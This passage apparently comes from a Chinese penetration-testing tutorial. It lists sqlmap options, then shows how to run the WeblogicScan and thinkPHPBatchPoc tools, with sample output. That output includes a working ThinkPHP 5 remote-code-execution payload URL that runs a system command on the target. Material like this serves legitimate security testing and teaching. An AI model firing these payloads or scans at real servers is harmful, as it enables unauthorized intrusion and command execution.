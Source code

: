 ~~~shell
# --referer ' ' 参数：使用自定义的 referer
# --proxy="127.0.0.1:8080" 参数：指定代理
# --threads 10 参数：设置线程数，最高10
# --level=1 参数：执行测试的等级（1-5，默认为1，常用3）
# --risk=1 参数：风险级别（0~3，默认1，常用1），级别提高会增加数据被篡改的风险
~~~

### WebLogic 服务漏洞查找
WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和JavaEnterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中，默认端口7001，访问会Error 404--Not Found
~~~shell
# 源码：https://github.com/rabbitmask/WeblogicScan
git clone https://github.com/rabbitmask/WeblogicScan.git

# 安装依赖
cd WeblogicScan
python -m pip install -r requirements.txt

# 命令查看帮助
python WeblogicScan.py -h

# 扫描单个目标的漏洞
python WeblogicScan.py -u 127.0.0.1 -p 7001

# 批量扫描目标列表的漏洞
python WeblogicScan.py -f target.txt
~~~

### ThinkPHP 服务漏洞查找
ThinkPHP是一个快速、兼容而且简单的轻量级国产PHP开发框架，诞生于2006年初原名FCS，2007年元旦正式更名为ThinkPHP，遵循Apache2开源协议发布，从Struts结构移植过来并做了改进和完善，同时也借鉴了国外很多优秀的框架和模式使用面向对象的开发结构和MVC模式，融合了Struts的思想和TagLib(标签库)RoR的ORM映射和ActiveRecord模式。
ThinkPHP可以支持windows/Unix/Linux等服务器环境，正式版需要PHP5.0以上版本支持，支持MySg、PgSQL、Sqlite多种数据库以及PDO扩展，ThinkPHP框架本身没有什么特别模块要求，具体的应用系统运行环境要求视开发所涉及的模块。默认端口8089
很多cms就是基于thinkphp5二次开发的，所以thinkphp出问题的话，会影响很多基于thinkphp开发的网站
~~~shell
# 源码：https://github.com/admintony/thinkPHPBatchPoc
git clone https://github.com/admintony/thinkPHPBatchPoc.git

# 安装依赖
python .\thinkPHPBatchPoc.py [-u admintony.com]
# -u 参数：指定ThinkPHP 服务检测是否存在thinkPHP代码执行漏洞
# -f 参数：检测文件中的批量ThinkPHP 服务是否存在thinkPHP代码执行漏洞，案例：thinkPHPBatchPoc.py -u target_URL

# 如下检查出来的漏洞
PS E:\PyProject> python .\thinkPHPBatchPoc.py -u admintony.com
[+] http://admintony.com is vulnerable
[+] Payload is ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20www_admintony_com
# 直接浏览器访问：https://admintony.com?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20www_admintony_com
# 会在远程ThinkPHP服务器执行URL末尾传递的 echo www_admintony_com 命令
~~~
